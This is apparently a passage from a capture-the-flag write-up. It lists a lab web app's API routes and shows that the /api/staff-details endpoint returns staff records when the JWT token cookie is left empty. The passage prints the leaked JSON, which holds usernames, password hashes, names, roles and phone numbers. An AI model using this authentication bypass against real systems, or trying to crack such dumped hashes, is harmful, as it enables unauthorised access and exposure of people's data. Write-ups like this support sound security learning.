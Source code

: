 Looking more at `app.js`, and taking the above references to `/api/`
- we can infer the full list of routes 

Routes:
- `/api/staff-details`
- `/api/store-status`
- `/api/all-leave`
- `/api/login`

`staff-details` looks very interesting
- but when we go there, we see a malformed `jwt` error
- means that our token is wrong
    - changing our token to other values worked on the dashboard, but not for this page
    - essentially, providing a value yields an error
        - so what if we remove the token value entirely?
    - reloading gives us an array of data

Data from `/api/staff-details` with blank `token` cookie value
```
[{
"user_id":1,
"username":"christine.wool",
"password":"6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
"fullname":"Christine Wool",
"role":"Founder, CEO",
"phone":"0415202922"
},
{
"user_id":2,
"username":"christopher.jones",
"password":"e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
"fullname":"Christopher Jones",
"role":"Salesperson",
"phone":"0456980001"
},
{
"user_id":3,
"username":"jackson.lightheart",
"password":"b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
"fullname":"Jackson Lightheart",
"role":"Salesperson",
"phone":"0419444111"
},
{
"user_id":4,
"username":"bean.hill",
"password":"37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
"fullname":"Bean Hill",
"role":"System Administrator",
"phone":"0432339177"
}]
```
